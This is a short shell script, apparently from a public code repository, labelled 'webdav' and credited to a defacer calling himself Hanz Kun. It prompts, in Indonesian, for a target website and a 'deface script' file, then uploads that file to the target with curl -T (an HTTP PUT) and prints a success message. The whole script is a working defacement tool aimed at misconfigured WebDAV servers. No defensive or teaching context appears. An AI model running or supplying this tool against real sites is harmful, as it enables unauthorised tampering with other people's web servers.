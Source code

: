 # webdav
clear
cowsay -f eyes 'WEBDAV
# EditBy  : Hanz Kun
# TEAM    : Solo No Team
# CONTACT : HanzSolo404@GMAIL.COM' | lolcat


read -p " Website Target ==> " target
read -p " Nama sript Defacenya ==> " sc;
curl -T /storage/emulated/0/$sc $target
echo " [!] Suksess... "
